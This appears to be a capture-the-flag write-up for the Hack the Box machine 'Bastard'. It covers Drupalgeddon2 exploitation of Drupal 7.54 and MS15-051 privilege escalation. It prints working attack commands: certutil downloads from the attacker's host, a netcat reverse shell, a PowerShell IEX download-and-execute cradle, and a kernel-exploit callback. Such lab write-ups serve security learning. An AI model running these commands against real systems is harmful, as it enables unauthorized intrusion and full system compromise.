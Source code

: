```yaml
---
title: Bastard
tags: windows
description: Write-up for Hack the Box - Bastard
---
```


![image](assets/79369485-07cfe400-7f1f-11ea-905d-414b9b137c70.png)

## Overview

Bastard is a Windows Server box running a content management system called Drupal. Drual 7.54 is vulnerable to CVE-2018-7600 which allows for remote code execution. Drupalgeddon was used to get the initial shell and kernel exploit (MS15-051) was used to escalate privileges to 'nt authority/system'.

## Enumeration

* Windows Server 2008 R2
* IIS 7.5
* php 5.3.28
* drupal 7.54

**Open Ports*

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.9 -oN /mnt/data/boxes/bastard/_full_tcp_nmap.txt
```

* 80/tcp - http
* 135/tcp - Microsft Windows RPC
* 49154 - Microsoft Windows RPC

## Steps (User)

Browsing to http://10.10.10.9 brought me to a drupal login page.

![image](assets/86193250-76cdd980-bb19-11ea-89db-95acc1ca972d.png)

Checking http://10.10.10.9/robots.txt showed some interesting files including /CHANGELOG.txt which reveals the version of drupal that's running.

![image](assets/79605435-ea854c00-80bd-11ea-9500-4a548c33dc3c.png)

Running a search against searchsploit for "drupal 7" shows multiple results, 3 of which apply to the version running on the box.I decided to go with drupalgeddon2.

![image](assets/79607582-6d5bd600-80c1-11ea-8a0e-9b9a04c7699f.png)

[drupalgeddon2](https://www.exploit-db.com/exploits/44449) is an exploit written in ruby which provides a root shell (if vulnerable). I made one modification to the script, "tryphpshell = false", because it appeared there was insufficient access to the web root.

```
./44449.rb http://10.10.10.9
```

> I had to use dos2unix to convert the line endings of the file because it was throwing errors (dos2unix 44449.rb)

![image](assets/79608245-a0eb3000-80c2-11ea-9077-4d893787cccf.png)

The web shell is pretty slow so I created a reverse shell with netcat. I copied the windows version of netcat to my local working directory, started a python http server in prepration to transfer files, and started a netcat listener (rlwrap nc -lvnp 4200).

> Note: rlwrap fixes the arrow key functionality for windows reverse shells. 

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

I used certutil was used to copy netcat to the target box.

```
certutil -urlcache -split -f http://10.10.14.16/nc.exe
```

With netcat now on the box I ran the command to create a reverse shell and received a callback as 'nt authority\iusr'

```
nc.exe -e cmd 10.10.14.16 4200
```

![image](assets/79614047-ba45a980-80cd-11ea-9f36-b4085af58e80.png)

## Steps (root/system)

Running systeminfo showed N/A for hotfixes so at this point I decided to run Sherlock and check for exploits.

> I attempted this with [Watson](https://github.com/rasta-mouse/Watson) but unfortunately I was not able to compile it for .Net 2.0.

Sherlock.ps1 was copied to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I then used Powershell Invoke-Expression (IEX) to pull sherlock.ps1 from my box and run it in memory, executing the Find-AllVuns function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.16/Sherlock.ps1');Find-AllVulns"
```

![image](assets/79620360-a144f480-80dd-11ea-9b2c-7a58ae4b79fc.png)

Reviewing the results, the box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server using certutil.

```
certutil -urlcache -split -f http://10.10.14.16/ms15-051x64.exe
```

I set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit providing my IP and port as parameters

```
ms15-051x64 -e cmd.exe 10.10.14.16 4201
```

![image](assets/79620972-c0dd1c80-80df-11ea-8304-137875abf87e.png)

A callback was received and I received a shell as nt authority/system

![image](assets/79621003-d2bebf80-80df-11ea-89bc-7fa5551df4be.png)
